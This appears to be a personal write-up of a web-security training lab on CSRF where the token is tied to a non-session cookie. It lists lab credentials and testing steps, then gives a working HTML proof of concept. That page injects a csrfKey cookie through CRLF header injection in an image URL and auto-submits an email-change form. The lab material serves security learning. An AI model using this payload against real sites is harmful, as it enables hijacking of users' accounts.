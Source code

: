 # CSRF where token is tied to non-session cookie
- lab's email change functionality is vulnerable to CSRF
- uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system
- The credentials are as follows:
```
wiener:peter
carlos:montoya
```
# Goal
- use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address
# Solving the Lab
- log in and change email
- for CSRF To be possibel
  - Certain Action : change email
  - cookie based session handeling : session cookie
  - no unpredictablle request parameters :
- Testing For CSRF
  - Remove CSRF Token and see if application accepts it 
  - change request method from post to get
  - see if csrf token is tied to user session
- Testing csrf token and csrf keys
  - check if csrf token is tied to csrf key
    - submit an invalid csrf token
    - submit valid csrf token from a valid user
  - submit avalid csrf token and csrf cookie from another user : YES
- so now we have two conditions
  - inject csrf cookie in the user http headers
  - send csrf attack to victim with valid csrf token
- so we construct a payload tat inject in header and do what we want
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0a0005046ef4b58183cff3004f0029.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="tesdsdst&#64;mail&#46;com" />
      <input type="hidden" name="csrf" value="5iydd3rU2CtyK4R2FUlW9Dt66OVwSJhI" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a0a0005046ef4b58183cff3004f0029.web-security-academy.ne/?search=test%0d%0aSet-Cookie:%20csrfKey=uLf64t4oWx9qapcNNDPFASgWa7lD8n11%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```
- we send payload to exploit server and press send to victim  > solved the Lab
